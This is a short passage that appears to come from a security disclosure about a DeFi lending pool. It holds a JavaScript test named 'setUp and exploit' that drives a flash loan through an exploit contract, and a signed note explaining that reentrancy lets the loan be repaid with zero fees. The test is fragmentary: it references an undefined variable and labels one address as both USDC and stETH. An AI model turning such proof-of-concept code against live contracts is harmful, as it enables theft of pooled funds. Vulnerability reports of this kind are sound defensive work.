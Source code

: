 ```

it("setUp and exploit", async () =>  {
       var _usdc = "0x17144556fd3424edc8fc8a4c940b2d04936d17eb";
       // set asset to stETH
       const stETH = await ierc20.at(_usdc);
      console.log("asset set to :" + s);

       const activePool = new web3.eth.Contract(activePoolAbi,activePoolAddress);       


      await exploit.setDesiredAmount(9999);
   

     const af = await activePool.methods.flashLoan(exploit.address,"0x17144556fd3424edc8fc8a4c940b2d04936d17eb",3333,"0x00");
    });

 });
```

The call re-enters 3 times (as pr desired amount is 3333 * 3 to reach) the flashloan will be taken and pays back 0 as fees

Regards,

Adam
